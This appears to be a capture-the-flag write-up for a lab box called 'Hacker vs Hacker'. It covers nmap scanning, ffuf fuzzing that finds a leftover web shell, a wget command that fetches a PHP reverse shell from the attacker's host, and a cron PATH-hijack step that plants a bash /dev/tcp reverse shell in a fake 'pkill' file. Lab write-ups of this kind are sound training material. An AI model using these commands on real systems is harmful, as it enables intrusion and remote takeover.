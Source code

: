 ```yaml
---
title: "Hacker vs Hacker"
date: 2023-08-14T17:07:49+05:30
draft: false
---
```



![dc0c7a25ca75eda427f95bfe6e4e24ab.png](/hackervshacker/dc0c7a25ca75eda427f95bfe6e4e24ab.png)

## Nmap:-

**Nmap -A -T4 -p- [IP]**

```html
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
|   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
|_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/14%OT=22%CT=1%CU=30475%PV=Y%DS=2%DC=T%G=Y%TM=62F91B3
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:03%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O
OS:3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   179.52 ms 10.8.0.1
2   179.86 ms 10.10.12.146
```

## HTTP:-

![Untitled](/hackervshacker/Untitled.png)

## Uploading Shell:-

Once you upload a file. We redirect to a different page that shows the content below.

![Untitled](/hackervshacker/Untitled%201.png)

**View Source of Upload.php**

![Untitled](/hackervshacker/Untitled%202.png)

## cvs dir:-

There is a cvs directory that holds all uploaded files. Once we have looked at our uploaded file, It's not being uploaded. But we know the hacker hacked it. So maybe the hacker leaves the Webshell out there. Let's start fuzzing.

![Untitled](/hackervshacker/Untitled%203.png)

## **Fuzzing:-**

Fuzzing file Name:-

```html
sudo ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.146/cvs/FUZZ.pdf.php
```

![Untitled](/hackervshacker/Untitled%204.png)

Fuzzing parameter Name:-

```html
sudo ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.146/cvs/shell.pdf.php?FUZZ=ls -fs 18
```

![Untitled](/hackervshacker/Untitled%205.png)

## Webshell:-

```html
http://10.10.12.146/cvs/shell.pdf.php?cmd=ls
```

![Untitled](/hackervshacker/Untitled%206.png)

## Reverse Shell

**Uploading Reverse shell:-**

I have uploaded a reverse shell using **wget**.

```html
http://10.10.12.146/cvs/shell.pdf.php?cmd=wget%20http://10.8.237.155:8000/php-reverse-shell.php
```

**Getting Reverse shell:-**

```html
http://10.10.12.146/cvs/shell.pdf.php?cmd=php%20php-reverse-shell.php
```

![Untitled](/hackervshacker/Untitled%207.png)

## Privilege Escalation:-

**Local Privilege Escalation:-**

We can see the history file has some size.

![Untitled](/hackervshacker/Untitled%208.png)

![Untitled](/hackervshacker/Untitled%209.png)

**Root Privilege Escalation:-**

![Untitled](/hackervshacker/Untitled%2010.png)

- We can see the crontab using pkill repeatly
- PATH:/home/lachlan/bin;/bin;/usr/bin
- First its check /home/lachlan/bin then /bin/ at the end /usr/bin
- So we can have an pkill file which contains reverse shell in /home/lachlan/bin which will executed by crontab

```html
echo "bash -c 'bash -i >& /dev/tcp/10.8.237.155/9001 0>&1'" > pkill
```

![Untitled](/hackervshacker/Untitled%2011.png)